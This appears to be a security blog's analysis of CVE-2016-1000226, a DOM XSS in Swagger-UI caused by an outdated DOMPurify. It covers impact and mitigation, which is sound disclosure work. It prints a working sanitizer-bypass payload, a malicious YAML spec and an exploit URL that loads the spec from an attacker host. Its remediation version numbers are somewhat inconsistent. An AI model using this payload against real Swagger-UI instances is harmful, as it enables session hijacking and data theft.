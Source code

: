 ```yaml
---
layout: post
title: "Analysis of CVE-2016-1000226: XSS in  Swagger-UI"
date: 2024-11-07
---
```


[CVE-2016-1000226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1000226)\[1\] is a [cross-site scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting)\[2\] vulnerability in [Swagger-UI](https://swagger.io/tools/swagger-ui/)\[3\], disclosed on July 21, 2016, affecting versions prior to **2.2.2**. This vulnerability allows an attacker to inject malicious scripts into API input parameters and within its Swagger JSON document generation.

This publication is also available in: [Portugues](https://blog.lesis.lat/blog/CVE-2016-1000226/)

---

**What is Swagger-UI?**

Swagger-UI is an open-source tool that displays API specifications in a developer-friendly graphical interface. Widely used for managing, documenting, and testing APIs, it allows easy visualization and interaction with RESTful APIs directly in the browser.

This tool operates based on the Swagger document, which describes the API, using a JavaScript library to process and render the content graphically on the screen.

---

**Vulnerability**

Although the Swagger-UI has a significant history of XSS vulnerabilities, all previous vulnerabilities required user interaction for a successful exploitation. The current vulnerability, however, is a DOM XSS that does not require such interaction. Since the vulnerability is controlled by query parameters, an attacker can exploit it without any user involvement.

This flaw arises from Swagger-UI’s use of an outdated version of the [DOMPurify](https://github.com/cure53/DOMPurify)\[4\] library in versions prior to 2.2.2, which prevents proper sanitization of user-provided input parameters.

---

**How does Swagger UI render API specifications?**

The process begins with creating a Swagger document (OpenAPI Specification), that defines the API structure, including endpoints, methods, parameters, and other relevant information about the API. This document is typically written in YAML or JSON format.

Then, when accessing Swagger-UI in the browser and providing the URL or file containing the Swagger document, the interface starts the document loading process. This can be done either through the API URL where the Swagger document is hosted or by directly uploading the file.

Let's focus on the function that enables loading a Swagger document via a URL, which can be done in two ways:

* ?url=https://host/spec.yaml  
* ?configUrl=https://host/file.json

Next, Swagger fetches the JSON configuration or YAML API specifications, processes them, and renders the content in the user's browser. Additionally, it interprets any description fields in the API specification as [Markdown](https://pt.wikipedia.org/wiki/Markdown)\[5\].

Example of how [YAML](https://pt.wikipedia.org/wiki/YAML)\[6\] specifications are structured:

```yml
swagger: '2.0'  
 info:  
   title: Example yaml.spec  
   description: This is an example text \*\*HELLO FROM MARKDOWN\*\*  
 paths:  
   /accounts:  
     get:  
       responses:  
         '200':  
           description: No response was specified  
       tags:  
         \- accounts  
       operationId: findAccounts  
       summary: Finds all accounts
```

Helper function used to render *Markdown* in the Swagger UI:

// src/components/providers/markdown.jsx
```javascript
 function Markdown({ source, className \= "", getConfigs }) {  
   ... omitted ...

   const md \= new Remarkable({  
     html: true,  
     typographer: true,  
     breaks: true,  
     linkTarget: "\_blank"  
   }).use(linkify)

   md.core.ruler.disable(\["replacements", "smartquotes"\])

   const { useUnsafeMarkdown } \= getConfigs()  
   const html \= md.render(source)  
   const sanitized \= sanitizer(html, { useUnsafeMarkdown })

   if (\!source || \!html || \!sanitized) {  
     return null  
   }

   return (  
     \<div className={cx(className, "markdown")} dangerouslySetInnerHTML={{ \_\_html: sanitized }}\>\</div\>  
   )  
 }
```

The sanitizer function uses *DOMPurify* to sanitize the input string, with an additional configuration that explicitly forbids the HTML \<style\> tag. However, this restriction can be bypassed using the \<textarea\> and \<title\> tags, which can "simulate" the behavior of the \<style\> tag. This method works because the \<textarea\> and \<title\> tags allow inserting CSS into an HTML attribute, serving a similar purpose to the \<style\> tag in this bypass. This behavior is then exploited to inject CSS that executes JavaScript.

The *DOMPurify* library used by Swagger-UI doesn't explicitly prevent the use of CSS with HTML attributes, allowing the following bypass:

```html
\<math\>\<mtext\>\<option\>\<FAKEFAKE\>\<option\>\</option\>\<mglyph\>\<svg\>\<mtext\>\<textarea\>\<a title="\</textarea\>\<img src='\#' onerror='alert(1)'\>"\>
```

---

**Exploitation**

The exploitation relies on Swagger’s processing any description field in the API specification as *Markdown*. Therefore, inserting the bypass in the following payload is sufficient:

```yml
swagger: '2.0'  
 info:  
   title: Example yaml.spec  
   description: |  
     \<math\>\<mtext\>\<option\>\<FAKEFAKE\>\<option\>\</option\>\<mglyph\>\<svg\>\<mtext\>\<textarea\>\<a title="\</textarea\>\<img src='\#' onerror='alert(document.domain)'\>"\>  
 paths:  
   /accounts:  
     get:  
       responses:  
         '200':  
           description: No response was specified  
       tags:  
         \- accounts  
       operationId: findAccounts  
      summary: Finds all accounts
```

With the malicious payload created, simply load the YAML specification file at the URL of the vulnerable application:

https://site-vulneravel.com/swagger-ui.html?url=https://site-malicioso.com/payload-swagger-ui.yml

Evidence of the payload being triggered:  

![](/assets/img/CVE-2016-1000226.png)

---

**Impact**

The successful exploitation of this vulnerability can lead to several negative impacts, including:

* Theft of cookies and user sessions, allowing an attacker to assume the user's identity and access confidential information.  
* Exposure of sensitive data, such as passwords, payment details, and other personal information.  
* Access to privileged services and functionalities, enabling an attacker to perform malicious actions on behalf of the compromised user.

---

**Mitigation**

The XSS vulnerability affects Swagger-UI versions  prior to 2.2.2. If you are using a version prior to 3.38, it is recommended to upgrade to the latest version. If a full package update is not possible, consider updating only *DOMPurify* to a version higher than 2.2.2.

---

**Conclusion**

The root cause of the vulnerability is an outdated version of the *DOMPurify* library, responsible for sanitizing user input. Exploitation occurs when Swagger processes its document, which may contain malicious code, especially API specification descriptions, where Swagger-UI interprets the content as *Markdown*.

Potential impacts of successful exploitation include cookie and session theft, exposure of sensitive information, and unauthorized access to privileged services on behalf of the victim.

The recommended mitigation is to update Swagger-UI to version 2.2.2 or later. If a full package update is not feasible, updating *DOMPurify* to a version above 2.2.2 is advised.

---

**References**

* \[1\] [Mitre \- CVE-2016-1000226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1000226)  
* \[2\] [PortSwigger \- Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)  
* \[3\] [SwaggerUI \- Visualize and interact with the API’s resources](https://swagger.io/tools/swagger-ui/)  
* \[4\] [DOMPurify \- DOM-only, super-fast, Uber-tolerant XSS sanitizer](https://github.com/cure53/DOMPurify)  
* \[5\] [Wikipedia \- Markdown](https://pt.wikipedia.org/wiki/Markdown)  
* \[6\] [Wikipedia \- YAML](https://pt.wikipedia.org/wiki/YAML)
